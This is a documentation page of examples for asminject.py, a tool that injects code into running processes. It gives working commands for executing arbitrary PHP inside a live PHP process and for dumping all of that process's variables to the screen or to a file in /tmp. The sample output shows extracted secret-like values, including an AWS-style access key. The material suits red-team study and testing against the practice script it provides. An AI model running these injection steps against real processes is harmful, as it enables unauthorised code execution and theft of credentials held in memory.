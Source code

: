 # asminject.py examples - PHP

<a href="../README.md">[ Back to the main README.md ]</a>

* [Execute arbitrary PHP code inside an existing PHP process](#execute-arbitrary-php-code-inside-an-existing-php-process)
* [Write all variables to standard out](#write-all-variables-to-standard-out)
* [Write all variables to a file](#write-all-variables-to-a-file)

## Execute arbitrary PHP code inside an existing PHP process

The `execute_php_code.s` payload requires two variables: `phpcode`, which should contain the PHP code that should be executed in the existing PHP process, and `phpname`, which can generally be set to any string.

This payload requires relative offsets for the `php` binary used by the target process.

In one terminal window, launch the practice PHP loop, e.g.:

```
$ php practice/php_loop.php

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep php | grep -v grep  
  
root     2037629  [...] php practice/php_loop.php

# python3 ./asminject.py 2037629 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP
```

Note that on ARM32 Linux, you may need to flag the `php` binary as non-PIC code, e.g.:

```
# python3 ./asminject.py 483 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP \
   --non-pic-binary 'bin/php'
```

In the first window, note that the loop is interrupted by the injected code, e.g.:

```
2022-05-12T13:41:46-0700 - Loop count 11
Injected PHP code
2022-05-12T13:41:53-0700 - Loop count 12
2022-05-12T13:41:58-0700 - Loop count 13
```

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "var_dump(get_defined_vars());" \
   --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```

## Write all variables to a file

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/38927628/save-var-dump-into-text-file) combined with the previous code:

```
ob_flush(); ob_start(); var_dump(get_defined_vars()); file_put_contents("/tmp/php_var_dump.txt", ob_get_flush());
```

e.g.

```
# python3 ./asminject.py 10603 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "ob_flush(); ob_start(); var_dump(get_defined_vars()); file_put_contents(\\\"/tmp/php_var_dump.txt\\\", ob_get_flush());" \
   --var phpname PHP
```
